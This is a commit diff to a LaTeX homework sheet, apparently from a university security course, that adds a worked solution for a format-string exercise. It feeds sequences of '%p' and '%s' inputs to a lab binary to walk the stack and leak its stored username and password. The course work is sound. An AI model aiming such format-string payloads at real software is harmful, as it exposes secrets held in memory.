

Before and after one commit to JanTSV/SystemAndWebSecurity, a LaTeX document (4/blatt4.tex): part of the page, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
feat: problem 1 done

```diff
--- a/4/blatt4.tex
+++ b/4/blatt4.tex
@@ -79,4 +79,25 @@
 \setcounter{exnum}{1}
 \exercise{Reading Data with Format Strings}
 
+\begin{enumerate}
+  \item Find out the frame structure of the program:
+        First, the program was called with \\\texttt{./fstr-read-2 "\%s" x}
+        This printed: \textit{Username or password invalid. Username: root}.
+        Hence, the internal stack pointer of \texttt{printf(user)} points to \texttt{validuser}.
+        This is probably some artifact of the \texttt{stcmp} functions in the \texttt{if}-block.
+  \item With \texttt{./fstr-read-2 "\%p" x} the address of the \texttt{validuser} string
+        within the text section can be located: \textit{Username or password invalid. Username: 0x804861a}.
+  \item Now a sequence of \texttt{\%p}'s was used to locate the calling frame of the \texttt{try\_login} function.
+        For this the local variables, padding bytes, old frame pointer, return address and the (other) arguments
+        need to be skipped. To locate the wanted arguments (\texttt{validuser} and \texttt{validpass})
+        in this sequence, we used the information about the address of \texttt{validuser} from above:
+        \texttt{./fstr-read-2 "\%p \%p \%p \%p \%p \%p \%p \%p \%p \%p \%p" x} prints
+        \textit{Username or password invalid. Username: 0x804861c (nil) (nil) (nil) (nil) 0xbffff808 0x80484e2 0xbffff9c3 0xbffff9e4 0x804861c 0x8048613}.
+        Obviously, the last two pointers point to the arguments in question.
+  \item Lastly, replace these arguments with \texttt{\%s}'s: (\texttt{./fstr-read-2 "\%p \%p \%p \%p \%p \%p \%p \%p \%p \%s \%s" x})
+        and get \textit{Username or password invalid. Username: 0x804861a (nil) (nil) (nil) (nil) 0xbffff828 0x80484e2 0xbffff9cf 0xbffff9f0 root passwd}
+\end{enumerate}
+
+Using this string for \texttt{fstr-read-2-extra} prints the valid username / password: \textit{smb / wannacry}.
+
 \end{document}
```
